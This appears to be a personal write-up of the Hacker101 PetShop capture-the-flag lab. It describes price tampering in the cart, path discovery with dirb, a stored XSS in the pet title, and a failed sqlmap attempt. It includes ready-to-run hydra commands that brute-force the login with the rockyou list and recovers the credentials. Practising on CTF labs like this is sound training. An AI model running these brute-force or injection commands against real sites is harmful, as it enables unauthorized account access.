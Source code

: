 # PetShop CTF

## flag0 found

The checkout accepted a JSON of the cart. So you could set the price to 0 and

## Web crawling and directory brute force:

The hint for the next flag was that there was an admin page and after trying some guesses I tried to find tools to search the site for other pages.

I tried Metasploit with the below module and wmap but i could not get it to work but I did not try very hard.
https://github.com/flibustier/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/http/crawler.md

I also tried recon-ng and explored the below modules but none seemed to do what I wanted on the surface.
recon/domains-contacts/metacrawler
recon/domains-domains/brute_suffix
recon/domains-hosts/brute_hosts
recon/domains-vulnerabilities/xssed
recon/domains-vulnerabilities/ghdb

I finally found dirb which was a simple tool that worked like a charm, it found the following paths:

/edit
/login

Of course!!

## flag1 found

/edit title with a script tag and view cart.

It was possible to do an XSS attack on the pet title which would show up on the landing and cart page. So setting a script on the name and then viewing it in the cart showed the flag.

## flag2 not found

/login I needed to get into the cms.

Sql injection was attempted with the below command but it did not work.
sqlmap -u https://c4858c57522b16e943eb970e26bb51cf.ctf.hacker101.com/login --data "username=a&password=b" -p username --dump

Used hydra with the built in word lists in kali linux to brute force the login.

This is taking a long time :D.

I am trying to get the username first and then the password afterwards.

hydra -L /usr/share/wordlists/john.lst -p aaa c4858c57522b16e943eb970e26bb51cf.ctf.hacker101.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid username" -S -F -V -R

I tried both fasttrack and john work lists and they both do not work.

So I increased the number of tasks and chose the rockyou word list instead.

hydra -L /usr/share/wordlists/rockyou.txt -p aaa c4858c57522b16e943eb970e26bb51cf.ctf.hacker101.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid username" -S -F -t 64

Username found: ainsley
Time to username: 33 minutes

hydra -l ainsley -P /usr/share/wordlists/rockyou.txt aeb3b9c5344b3adaee6084ce9ad86eca.ctf.hacker101.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid password" -S -F -t 64

Password found: shark
Time to password: 31 minutes
